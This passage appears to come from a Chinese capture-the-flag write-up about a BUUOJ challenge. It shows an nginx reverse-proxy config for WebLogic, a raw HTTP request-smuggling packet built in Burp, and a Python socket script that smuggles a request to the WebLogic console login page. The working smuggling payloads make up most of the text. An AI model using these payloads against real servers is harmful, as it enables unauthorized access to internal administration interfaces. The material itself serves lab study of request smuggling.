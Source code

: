 ```
           fastcgi_index  index.php;
           fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
           include        fastcgi_params;
        }
 
    }
 
resolver 127.0.0.11 valid=0s ipv6=off;
resolver_timeout 10s;
 
    # weblogic
    server {
        listen       80;
        server_name  weblogic;
        location / {
            proxy_set_header Host $host;
            set $backend weblogic;
            proxy_pass http://$backend:7001;
        }
    }
}
```

burp构造数据包，走私到 WebLogic Console 的登录页面

```
GET /undefined HTTP/1.1
Host: node4.buuoj.cn:28946
Content-Length: 0
Transfer-Encoding: chunked

GET /console/login/LoginForm.jsp HTTP/1.1
Host: weblogic

```

burp不好操作，利用socket发

```python
import socket

sSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sSocket.connect(("node4.buuoj.cn", 28839))
payload = b'GET /a HTTP/1.1\r\nHost: node3.buuoj.cn\r\nContent-Length: 66\r\n\r\nGET /console/login/LoginForm.jsp HTTP/1.1\r\nHost: weblogic\r\n\r\n'
sSocket.send(payload)
sSocket.settimeout(2)
response = sSocket.recv(2147483647)
while len(response) > 0:
    print(response.decode())
    try:
        response = sSocket.recv(2147483647)
    except:
        break
sSocket.close()

```
